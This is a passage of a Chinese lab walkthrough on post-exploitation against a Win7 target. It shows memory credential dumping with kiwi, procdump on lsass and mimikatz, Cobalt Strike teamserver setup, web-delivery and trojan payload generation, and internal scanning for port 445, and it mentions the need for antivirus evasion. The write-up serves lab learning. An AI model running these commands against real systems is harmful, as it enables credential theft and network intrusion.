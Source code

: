 得到system权限后需要把进程迁移到system权限下，ps查看一下，我这里迁移到svchost.exe
![](https://img-blog.csdnimg.cn/20210520201215228.png)
使用kiwi来获取密码，直接
```bash
load kiwi  # help kiwi 查看帮助
creds_wdigest  # 获取账号密码
```
成功得到密码
![](https://img-blog.csdnimg.cn/20210520201358167.png)
这里看了另一篇文章，发现可以使用`procdump`导出 lsass.dmp，然后使用`mimikatz`抓取密码
学习一下，先将procdump上传到win7上，执行：
```bash
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
![](https://img-blog.csdnimg.cn/20210521115921840.png)
成功得到文件lsass.dmp，传回到本地使用：
```bash
sekurlsa::minidump ./lsass.dmp
sekurlsa::logonpasswords
```
![](https://img-blog.csdnimg.cn/20210521120244447.png)
#### CS上号
启动：`./teamserver 本机ip 连接密码`
![](https://img-blog.csdnimg.cn/20210521121105924.png)
运行start.bat，输入Host，User和Password
![](https://img-blog.csdnimg.cn/2021052213291997.png)
设置Listeners
![](https://img-blog.csdnimg.cn/202105211250009.png)
这里我们使用Attacks->Web Drive-by->Scripted Web Delivery，成功后会生成一条命令，使用蚁剑虚拟终端输入命令即可
![](https://img-blog.csdnimg.cn/20210521125648913.png)
这里再使用CS生成木马试一下，Attacks->Packages->Windows Executable
![](https://img-blog.csdnimg.cn/20210521134741615.png)

运行即可，注意这里要是安装了杀毒软件会被杀掉，需要免杀
![](https://img-blog.csdnimg.cn/20210521134705399.png)
执行 shell 命令前面加上 shell 就可以了，例如 `shell ipconfig`
![](https://img-blog.csdnimg.cn/20210521133331631.png)


使用 hashdump 和 logonpasswords 可以读内存和注册表密码，在 Credentials 模块下查看
![](https://img-blog.csdnimg.cn/20210521132718325.png)
#### 探测内网端口
对目标网段进行端口存活探测，因为是 psexec 传递登录，这里仅需探测445端口
命令：portscan ip网段 端口 扫描协议（arp、icmp、none） 线程
```bash
portscan 192.168.52.0/24 445 arp 200
```
![](https://img-blog.csdnimg.cn/20210521131239853.png)
也可以使用CS扩展的Ladon插件探测内网存活主机情况，[https://github.com/k8gege/Aggressor](https://github.com/k8gege/Aggressor)
`Ladon 192.168.52.0/24 OnlinePC`
![](https://img-blog.csdnimg.cn/20210522152354545.png)
得到内网的两个靶机ip
